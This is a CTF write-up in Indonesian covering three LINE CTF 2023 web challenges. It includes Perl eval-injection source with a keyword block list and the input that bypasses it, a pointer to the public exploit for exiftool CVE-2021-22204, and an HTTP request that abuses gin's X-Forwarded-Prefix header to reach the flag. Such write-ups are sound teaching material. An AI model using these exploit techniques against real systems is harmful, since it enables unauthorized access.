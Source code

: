 # Old Pal - web
## Description
How about an Old Pal for your aperitif?
http://104.198.120.186:11006/cgi-bin/main.pl?password=

## Exploit
Pada challenge ini kita diberikan source code sebagai berikut.

```perl 
#!/usr/bin/perl
use strict;
use warnings;

use CGI;
use URI::Escape;


$SIG{__WARN__} = \&warn;
sub warn {
    print("Hacker? :(");
    exit(1);
}


my $q = CGI->new;
print "Content-Type: text/html\n\n";


my $pw = uri_unescape(scalar $q->param("password"));
if ($pw eq '') {
    print "Hello :)";
    exit();
}
if (length($pw) >= 20) {
    print "Too long :(";
    die();
}
if ($pw =~ /[^0-9a-zA-Z_-]/) {
    print "Illegal character :(";
    die();
}
if ($pw !~ /[0-9]/ || $pw !~ /[a-zA-Z]/ || $pw !~ /[_-]/) {
    print "Weak password :(";
    die();
}
if ($pw =~ /[0-9_-][boxe]/i) {
    print "Do not punch me :(";
    die();
}
if ($pw =~ /AUTOLOAD|BEGIN|CHECK|DESTROY|END|INIT|UNITCHECK|abs|accept|alarm|atan2|bind|binmode|bless|break|caller|chdir|chmod|chomp|chop|chown|chr|chroot|close|closedir|connect|cos|crypt|dbmclose|dbmopen|defined|delete|die|dump|each|endgrent|endhostent|endnetent|endprotoent|endpwent|endservent|eof|eval|exec|exists|exit|fcntl|fileno|flock|fork|format|formline|getc|getgrent|getgrgid|getgrnam|gethostbyaddr|gethostbyname|gethostent|getlogin|getnetbyaddr|getnetbyname|getnetent|getpeername|getpgrp|getppid|getpriority|getprotobyname|getprotobynumber|getprotoent|getpwent|getpwnam|getpwuid|getservbyname|getservbyport|getservent|getsockname|getsockopt|glob|gmtime|goto|grep|hex|index|int|ioctl|join|keys|kill|last|lc|lcfirst|length|link|listen|local|localtime|log|lstat|map|mkdir|msgctl|msgget|msgrcv|msgsnd|my|next|not|oct|open|opendir|ord|our|pack|pipe|pop|pos|print|printf|prototype|push|quotemeta|rand|read|readdir|readline|readlink|readpipe|recv|redo|ref|rename|require|reset|return|reverse|rewinddir|rindex|rmdir|say|scalar|seek|seekdir|select|semctl|semget|semop|send|setgrent|sethostent|setnetent|setpgrp|setpriority|setprotoent|setpwent|setservent|setsockopt|shift|shmctl|shmget|shmread|shmwrite|shutdown|sin|sleep|socket|socketpair|sort|splice|split|sprintf|sqrt|srand|stat|state|study|substr|symlink|syscall|sysopen|sysread|sysseek|system|syswrite|tell|telldir|tie|tied|time|times|truncate|uc|ucfirst|umask|undef|unlink|unpack|unshift|untie|use|utime|values|vec|wait|waitpid|wantarray|warn|write/) {
    print "I know eval injection :(";
    die();
}
if ($pw =~ /[Mx. squ1ffy]/i) {
    print "You may have had one too many Old Pal :(";
    die();
}


if (eval("$pw == 20230325")) {
    print "Congrats! Flag is LINECTF{redacted}"
} else {
    print "wrong password :(";
    die();
};
```

Untuk membypass semua itu kita bisa menggunakan payload berikut.

```
20230325-v48
```

Dimana v48 equal denga '0' sehinggal nanti menghasilkan `20230325` yang merupakan password yang harus kita inputkan.

# Imagexif - web
## Description
This site provides you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination.

## exploit
Pada challenge ini kita akan meng-eksploitasi [CVE-2021-22204](https://github.com/bilkoh/POC-CVE-2021-22204/blob/main/build_image.pl).

Saat kita melihat dockerfile pada backend kita akan menemukan bahwa mesin tersebut menggunakan versi exiftool yang vulnerable.

```dockerfile 
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

Kita akan menggunakan POC berikut untuk mendapatkan flagnya https://github.com/bilkoh/POC-CVE-2021-22204/blob/main/build_image.pl.

![](https://i.imgur.com/Xxs4FEo.png)

Jalankan perintah diatas dan nanti akan muncul image `notevil.jpg`, kita kirim image tersebut ke server dan kita akan mendapatkan flagnya.

![](https://i.imgur.com/nv5sPuR.png)

# Adult Simple GoCurl - web
Pada challenge ini kita perlu membuat request ke `/flag`, disini kita bisa memanfaatkan fitur pada module gin golang yaitu `X-Forwarded-Prefix` untuk lebih jelasnya bisa dilihat disini https://github.com/gin-gonic/gin/pull/1238/commits/0906ea946d9f39dc5b8e9b4832d1eb9eaa8ca35f.

Fitur ini berfungsi untuk mengubah redirect dari golang dengan mendambahkan value yang kita berikan tadi ke header `Location`.

Berikut request yang saya gunakan untuk menyelesaikan challenge ini.

```http 
GET /curl/?url=http://127.0.0.1:8080//&header_key=X-Forwarded-Prefix&header_value=/flag HTTP/1.1
Host: 34.84.87.77:11001
Connection: close
```

![](https://i.imgur.com/RDif5Ht.png)

# Our Team Writeup
@daffainfo

https://github.com/daffainfo/ctf-writeup/tree/main/LINE%20CTF%202023
| Category | Challenge |
| --- | --- |
| Web | Baby Simple GoCurl

@kaelanalysis

- https://github.com/maulvialf/CTF-Writeups/tree/main/2023/linectf
- https://maulvialf.medium.com/write-up-reverse-engingeering-line-ctf-2023-fishing-and-jumpit-18d5a6c3092e

- rev
	1. fishing
	2. jumpit